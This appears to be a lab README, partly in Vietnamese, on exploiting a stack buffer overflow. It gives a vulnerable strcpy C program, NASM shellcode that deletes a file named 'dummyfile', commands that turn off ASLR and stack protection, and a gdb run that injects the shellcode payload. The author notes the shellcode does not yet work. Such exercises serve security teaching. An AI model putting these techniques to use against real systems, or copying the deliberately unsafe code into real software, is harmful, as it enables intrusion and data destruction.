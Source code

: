 ## vuln(inject shell code file_del)
### Prepare for the lab environment:
1. Turn off OS's address space layout randomization (`sudo sysctl -w kernel.randomize_va_space=0`)<br>
(Tắt chế độ cấp phát địa chỉ stack ngẫu nhiên khi load chương trình của HĐH)<br>
2. Compile program with options to defeat stack protecting mechanism and code execution on stack:<br>
(Biên dịch chương trình c với các option tắt cơ chế bảo vệ stack và cho phép thực thi code trên stack)<br>
`$> gcc vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2`<br>
3. Creat link to zsh instead of default dash to turn off bash countermeasures of Ubuntu 16.04:<br>
`$> sudo ln -sf /bin/zsh /bin/sh`<br>

Source code: <br>
```
#include<stdio.h>
#include<string.h>
int main(int argc, char* argv[])
{
    char buf[64];
    if (argc==1)
        printf("missing argument\n");
    else
        strcpy(buf,argv[1]);
    //printf("buf: 0x%x\n",(unsigned int)buf);
    return 0;
}
```
<br>

**vuln.c**
```
; delete dummyfile in nasm

section .text
global _start
_start:
    jmp short ender
starter:
    mov eax,10
    mov ebx,_filename
    int 0x80
_exit:
    mov eax,1
    int 0x80

ender:
    call starter
_filename:
    db 'dummyfile',0
```
**file_del.asm**

<br>

Complie by gcc:
`gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack`

<br>
Run file_del: <br>
`nasm -g -f elf file_del.asm`

<br>

`ld -m elf_i386 -o file_del file_del.o`

<br>

![compile vuln](./imgs/file_del1.png)

<br>

Run this command to get shellcode from `file_del`:

<br>

`for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo`

<br>

![shellcode](./imgs/file_del2.png)

<br>

Use `gdb` to run program:

<br>

`gdb vuln.out -q`

<br>

![gdb](./imgs/file_del3.png)

<br>

break at 2 points: <br>
`0x08048441` <br>
`0x0804846b` <br>
<br> Run program: <br>
`gdb-pead$ r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00' + 'a'*32 + '\xff\xff\xff\xff')")` <br>

![](./imgs/file_del4.png)

<br> Continue: `gdb-peda$ c` <br>

![](./imgs/file_del5.png)

<br> `x/80xb $esp` to check stack <br>

We got some problem in shellcode. It's wrong when running program.
